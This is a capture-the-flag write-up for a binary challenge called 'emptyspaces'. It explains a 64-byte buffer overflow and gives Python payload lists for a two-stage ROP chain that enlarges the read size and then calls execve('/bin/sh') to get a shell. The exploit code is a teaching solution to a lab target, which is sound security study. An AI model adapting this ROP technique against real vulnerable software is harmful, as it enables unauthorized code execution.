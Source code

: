 # emptyspaces

## Disassemble and Decompilation

![Empty Spaces Main](../../.github/assets/emptyspaces/main.png)

As we can see the input string is 64 bytes long and the read is reading 137, thus we have a BO. The problem is that after the overflow of the buffer and the sEBP we have just 137-64-8=65 bytes that are not enough for a rop chain where we first read the string '/bin/sh' and then call execve.

## Solution

The idea is to use a multistage rop chain exploit. First we use a rop chain to set the RDX register to 0x1000 (arbitrary high value) and then we return to the read in the main. In this way we are rewriting the exact same buffer but we have more bytes for the second stage.

### First Stage

```python
call_main = [
    b'A'*72,
    pop_rdx,
    p64(0x1000),
    main,
]
```

This stage is 96 bytes long, so it fits the 137 bytes read.

### Second Stage

```python
read_execve_payload = [
    b'A'*88,
    pop_rdi,
    p64(0x0),
    pop_rsi,
    bss_addr,
    xor_eax_eax_syscall,
    pop_rax,
    p64(0x3b),
    pop_rdi,
    bss_addr,
    pop_rdx_pop_rsi,
    p64(0x0),
    p64(0x0),
    syscall
]
```

This stage fits the 0x1000 bytes we have set in the RDX register in the first stage. We overflow the buffer and overwrite the sRIP of the read() function. Basically the read() function in the main instead of returning to the main itself, it returns to the pop_rdi gadget. Then the chain begins, a read syscall is called to read the string '/bin/sh' in the bss section, then the execve syscall is called to execute the string '/bin/sh'.

Note that we have two different syscall gadgets. This is because the xor_eax_eax_syscall gadget is used to set the RAX register to 0x0, while the last syscall gadget is a terminator syscall, meaning that it will never return.

The complete exploit is in [script.py](script.py).
